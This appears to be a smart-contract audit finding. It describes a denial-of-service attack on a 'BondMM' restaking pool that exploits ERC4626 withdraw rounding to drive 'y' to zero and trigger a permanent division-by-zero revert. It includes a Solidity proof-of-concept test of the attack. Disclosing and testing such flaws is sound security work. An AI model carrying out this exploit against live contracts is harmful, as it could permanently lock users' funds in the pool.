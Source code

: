 In order to achieve the overflow we combine #21 with this idea.

The high level attack path is the following:
- open a borrow position for all but 1 wei of `y`
- Trigger the ERC4626 to have a loss due to using `withdraw` (which rounds up shares)
- Leave the `y` in storage to be 1
- On the next call to `SyncReward` the BondMM will check for it's balance and update `y` to be `0`
- The compiler inserted revert on division by zero will permanently DOS the pool

## POC 

Please note that this POC uses 0 fees in order to more easily identify the scenario for the attack

Adding fees does make the attack more complex mathematically, however, given certain conditions (e.g. Vault Shares have a high price, therefore losing 1 wei causes a sizeable loss), the attack can be performed with fees as well.

We:
- Donate some assets to the Vault in order to rebase the shares
- Borrow all but 1 wei
- Perform another action to demonstrate that it will revert

```solidity
function test_can_i_zero_y() public {
        switchActor(1);
        switch_asset(1);
        asset_mint(address(mockERC4626Vault), uint128(mockERC4626Vault.totalSupply()) - 1); // Cause rounding

        // Trigger Accrual
        uint256 shares = restakingRouter_addLiquidity(1e6, 0);
        restakingRouter_withdrawLiquidity(shares);

        collOracle_setLatestRoundDataReturn(1, 1e18, block.timestamp, block.timestamp, 0);
        debtOracle_setLatestRoundDataReturn(1, 1e18, block.timestamp, block.timestamp, 0);

        restakingRouter_depositCollateral(_getActor(), 100e18);
        _logY();

        // Remove rounding error via donation
        
        asset_mint(address(restakingBondMM), 1);
        _logY();


        console2.log("balance -1", mockERC4626Vault.balanceOf(address(restakingBondMM)));
        console2.log("maxWithdraw -1", mockERC4626Vault.maxWithdraw(address(restakingBondMM)));
        // 1000200000001000198 - 1
        restakingRouter_openBorrowingPosition(2000000000000000000 - 1, type(uint256).max, 365 days);

        _logY();

        console2.log("balance 0", mockERC4626Vault.balanceOf(address(restakingBondMM)));
        console2.log("maxWithdraw 0", mockERC4626Vault.maxWithdraw(address(restakingBondMM)));
        console2.log("previewWithdraw 0", mockERC4626Vault.previewWithdraw(mockERC4626Vault.maxWithdraw(address(restakingBondMM))));
        console2.log("totalAssets 0", mockERC4626Vault.totalAssets());
        console2.log("totalSupply 0", mockERC4626Vault.totalSupply());

        restakingRouter_addLiquidity(1e18, 0);
    }
```
